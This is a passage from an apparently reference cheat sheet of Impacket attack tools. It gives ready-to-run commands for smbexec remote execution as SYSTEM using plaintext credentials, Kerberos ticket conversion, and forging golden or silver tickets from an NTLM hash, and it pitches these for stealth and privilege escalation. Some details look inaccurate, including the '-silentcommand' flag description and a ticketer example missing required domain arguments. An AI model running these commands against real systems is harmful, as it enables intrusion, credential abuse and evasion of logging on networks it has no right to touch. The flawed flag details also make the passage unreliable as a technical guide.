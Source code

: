 **Usage Example**:
```bash
impacket-smbexec -dc-ip 192.168.1.100 -silentcommand example.local/user1:Password123@192.168.1.101 whoami
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `-silentcommand`: Suppresses command output in logs.
- `example.local/user1:Password123@192.168.1.101`: Target and credentials.
- `whoami`: Command to execute.

**Example Output**:
```
nt authority\system
```

**Use Case**: Executes commands stealthily via SMB.[](https://github.com/fortra/impacket/blob/master/examples/smbexec.py)

### 31. ticketConverter.py
**Purpose**: Converts Kerberos tickets between KRB-CRED (kirbi) and ccache formats.

**Usage Example**:
```bash
impacket-ticketConverter ticket.kirbi ticket.ccache
```
**Flag Explanations**:
- `ticket.kirbi`: Input file in KRB-CRED format.
- `ticket.ccache`: Output file in ccache format.

**Example Output**:
```
[*] Converted ticket to ticket.ccache
```

**Use Case**: Interoperates with tools like Mimikatz.[](https://tools.thehacker.recipes/impacket)

### 32. ticketer.py
**Purpose**: Creates golden or silver Kerberos tickets.

**Usage Example**:
```bash
impacket-ticketer -dc-ip 192.168.1.100 -nthash 31d6cfe0d16ae931b73c59d7e0c089c0 -spn cifs/server01.example.local administrator
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `-nthash 31d6cfe0d16ae931b73c59d7e0c089c0`: NTLM hash for authentication.
- `-spn cifs/server01.example.local`: Service Principal Name for the ticket.
- `administrator`: Target user for the ticket.

**Example Output**:
```
[*] Created ticket: administrator.ccache
```

**Use Case**: Forges tickets for privilege escalation.[](https://tools.thehacker.recipes/impacket)
